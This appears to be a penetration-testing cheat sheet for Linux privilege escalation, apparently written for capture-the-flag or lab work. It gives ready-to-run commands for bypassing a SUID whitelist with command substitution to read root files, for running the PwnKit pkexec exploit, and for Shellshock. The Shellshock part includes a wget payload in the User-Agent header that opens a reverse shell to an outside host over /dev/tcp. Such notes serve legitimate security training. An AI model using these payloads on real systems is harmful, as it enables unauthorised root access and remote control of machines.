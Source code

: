 ```yaml
---
icon: face-angry-horns
---
```


# Binary Exploitation - Linux

{% hint style="danger" %}
### <mark style="color:purple;">Bypass</mark> <mark style="color:orange;">`SUID`</mark> <mark style="color:purple;">whitelist</mark>

* <mark style="color:purple;">Sometimes</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">commands may have a whitelist for commands .</mark>
* <mark style="color:purple;">This can be bypassed by using</mark> <mark style="color:orange;">**`subcommands`**</mark><mark style="color:purple;">**:**</mark>

```sh
supershell ‘/bin/ls $(cat /root/root.txt)’
```

* <mark style="color:purple;">In this example</mark> <mark style="color:orange;">**`supershell`**</mark> <mark style="color:purple;">is the</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">binary and</mark> <mark style="color:orange;">**`/bin/ls`**</mark> <mark style="color:purple;">the whitelisted command, there are also another way to bypass this by using</mark> <mark style="color:orange;">**`'`**</mark> <mark style="color:purple;">to open a quote:</mark>

```sh
supershell ‘/bin/ls
```

* <mark style="color:purple;">Then in the next line use your desired command:</mark>

```sh
cat /root/root.txt’
```
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:purple;">Exploit</mark> <mark style="color:orange;">`pkexec`</mark>

* <mark style="color:purple;">Check if</mark> <mark style="color:orange;">**`pkexec`**</mark> <mark style="color:purple;">has</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">permissions:</mark>

```sh
ls -l /usr/bin/pkexec
```

* <mark style="color:purple;">Use</mark> [<mark style="color:orange;">**`pwnkit`**</mark>](https://github.com/joeammond/CVE-2021-4034/)<mark style="color:purple;">:</mark>&#x20;

```sh
python CVE-2021-4034.py
```
{% endhint %}

***

{% hint style="danger" %}
### <mark style="color:orange;">`ShellSock`</mark>

* <mark style="color:purple;">Attack vectors include remote command execution via</mark> <mark style="color:orange;">**`CGI`**</mark> <mark style="color:purple;">scripts or web servers, as well as exploitation in environments like</mark> <mark style="color:orange;">**`SSH`**</mark><mark style="color:purple;">,</mark> <mark style="color:orange;">**`HTTP`**</mark><mark style="color:purple;">, and any process that involves</mark> <mark style="color:orange;">**`Bash`**</mark> <mark style="color:purple;">interpreting environment variables.</mark>
* <mark style="color:purple;">Affects</mark> <mark style="color:orange;">**`Bash`**</mark>**&#x20;**<mark style="color:purple;">**versions**</mark>**&#x20;**<mark style="color:orange;">**`1.x`**</mark>**&#x20;**<mark style="color:purple;">**to**</mark>**&#x20;**<mark style="color:orange;">**`4.3`**</mark><mark style="color:purple;">**:**</mark>

```sh
() { :;}; echo; /usr/bin/id
```

* <mark style="color:purple;">Inject malicious code through the</mark> <mark style="color:orange;">**`User-Agent`**</mark> <mark style="color:purple;">header, targeting a vulnerable</mark> <mark style="color:orange;">**`CGI`**</mark> <mark style="color:purple;">script in the</mark> <mark style="color:orange;">**`/cgi-bin/`**</mark> <mark style="color:purple;">directory to initiate a reverse shell:</mark>

{% code overflow="wrap" %}
```sh
wget -U '() { :;}; echo; /bin/bash >& /dev/tcp/172.24.0.253/4443 0>&1' -O- http://172.24.0.2/cgi-bin/stats
```
{% endcode %}
{% endhint %}

